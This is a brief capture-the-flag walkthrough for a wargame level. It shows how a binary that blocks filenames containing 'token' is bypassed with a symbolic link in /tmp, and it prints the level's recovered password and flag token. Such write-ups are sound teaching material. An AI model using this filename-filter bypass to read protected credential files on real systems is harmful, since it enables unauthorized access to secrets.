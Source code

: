 # Level 08

## step 1 : try things
```
$ ./level08 token
You may not access 'token'
```

## step 2 : analyze level08
```
$ strings level08
```
we understand that level stop access to all files including the word token.

## step 3 : create a sym link to token
```
$ ln -s /home/user/level08/token /tmp/flag08
$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```

## step 3 : get level09 password
```
$ su flag08
$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
